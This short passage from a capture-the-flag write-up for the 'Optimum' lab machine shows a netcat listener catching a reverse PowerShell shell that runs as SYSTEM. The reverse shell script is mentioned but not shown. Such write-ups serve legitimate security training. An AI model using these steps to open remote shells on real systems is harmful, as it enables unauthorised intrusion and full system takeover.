 After preparing reverse shell powershell script to open port on 9001, let's invoke the exploit.

```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.8] 49235
Windows PowerShell running as user OPTIMUM$ on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>whoami
nt authority\system
```

Then the listener soon captures a shell as `SYSTEM`!